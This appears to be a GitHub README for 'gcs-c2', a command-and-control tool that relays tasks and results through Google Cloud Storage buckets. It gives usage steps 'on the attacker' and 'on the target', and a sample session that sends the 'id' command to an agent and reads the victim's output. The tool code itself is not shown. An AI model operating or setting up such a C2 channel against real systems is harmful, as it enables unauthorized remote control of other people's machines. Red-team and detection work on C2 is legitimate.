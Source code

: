 # gcs-c2
C2 over google cloud storage buckets

## Usage
Run the `server` first, then the `client`


On the attacker:
```
$ python3 server.py
GCP Bucket C2. Type 'help' for commands.
GCP Shell> list_agents
New agent registered: 263c81c7-fe3a-47ee-8a7b-5898218a77be
Agent: 263c81c7-fe3a-47ee-8a7b-5898218a77be, Status: active
GCP Shell> send_task 263c81c7-fe3a-47ee-8a7b-5898218a77be id
Sent task to agent 263c81c7-fe3a-47ee-8a7b-5898218a77be
GCP Shell> get_responses 263c81c7-fe3a-47ee-8a7b-5898218a77be
Response from 263c81c7-fe3a-47ee-8a7b-5898218a77be: Command: id
Exit code: 0
Stdout: uid=1000(titan) gid=1000(titan) groups=1000(titan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),134(wireshark),135(kismet),998(docker)

GCP Shell>
```

On the target:
```
$ python3 client.py
```